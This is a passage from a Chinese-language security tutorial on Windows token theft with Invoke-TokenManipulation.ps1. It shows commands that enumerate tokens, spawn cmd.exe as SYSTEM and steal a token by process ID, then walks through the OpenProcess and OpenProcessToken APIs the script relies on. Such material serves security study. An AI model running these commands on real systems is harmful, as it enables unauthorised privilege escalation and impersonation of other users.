 2. 使用Invoke-TokenManipulation.ps1窃取用户令牌

- 列举token
    
    > Invoke-TokenManipulation -Enumerate
    
    ![6](https://shs3.b.qianxin.com/butian_public/f4963381a213886dbeac5e7ab672a4eb33a71accef0a3.jpg)
- 提升system权限
    
    > Invoke-TokenManipulation -CreateProcess "cmd.exe" -Username "nt authority\\system"

![7](https://shs3.b.qianxin.com/butian_public/f868186a92fbdc7508e5ff2d60df11e8a6c6ccfa6eff6.jpg)

- 通过指定进程id窃取用户token启动进程
    
    > Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId 436

![8](https://shs3.b.qianxin.com/butian_public/f136968818e4a48b3065265a5df3430833d1d471f445a.jpg)

3. Msf下的利用
    
    ![9](https://shs3.b.qianxin.com/butian_public/f3461445583c429817da8f5aa3cd4bd38fe3a74646aaa.jpg)

三、原理分析
------

这里打断点对Invoke-TokenManipulation.ps1进行分析：

1. 命令参数

![10](https://shs3.b.qianxin.com/butian_public/f40482391bb2246a64f181bcbe2fac18853055eedcae5.jpg)

2. 跳转至调用win API函数，这里分析几个窃取过程必要的函数
    
    ![11](https://shs3.b.qianxin.com/butian_public/f532049ab1b4991c5f29a7ac32e2a741ef253aa72da4d.jpg)

1)给OpenProcess()传入指定的进程PID，返回一个可操作的进程句柄(HANDLE)；且必须指定进程的权限标志：PROCESS\_QUERY\_LIMITED\_INFORMATION、PROCESS\_QUERY\_INFORMATION或PROCESS\_ALL\_ACCESS（三者权限按从低到高排序），我们可以使用拥有SeDebugPrivilege权限（忽视安全描述符允许调试进程）的用户，如用户为Administrator或是被给予了相应的权限；

函数原型如下：

```c++
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
```

2)将OpenProcess()获取的进程句柄传入OpenProcessToken()用于打开与进程关联的访问令牌的句柄，且必须传入一个访问权限标志才能使用OpenProcessToken()：TOKEN\_QUERY和TOKEN\_DUPLICATE访问权限

函数原型如下：

```c++
 BOOL OpenProcessToken(
   [in]  HANDLE  ProcessHandle,
   [in]  DWORD   DesiredAccess,
   [out] PHANDLE TokenHandle
 );
```
